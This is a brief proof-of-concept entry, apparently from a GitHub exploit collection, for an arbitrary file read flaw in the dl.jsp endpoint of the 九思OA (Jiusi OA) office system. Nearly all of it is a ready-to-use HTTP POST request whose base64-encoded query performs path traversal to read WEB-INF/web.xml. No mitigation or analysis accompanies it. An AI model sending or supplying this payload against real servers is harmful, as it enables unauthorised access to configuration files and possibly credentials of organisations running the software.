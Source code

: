 # jiusiOA_dl.jsp_fileread

product: 九思OA
```
POST /jsoa/dl.jsp?JkZpbGVOYW1lPS4uLy4uLy4uL1dFQi1JTkYvd2ViLnhtbCZwYXRoPS9h HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Connection: close
```

from: https://github.com/wy876/POC/blob/main/%E4%B9%9D%E6%80%9DOA/%E4%B9%9D%E6%80%9DOA%E6%8E%A5%E5%8F%A3dl.jsp%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E.md
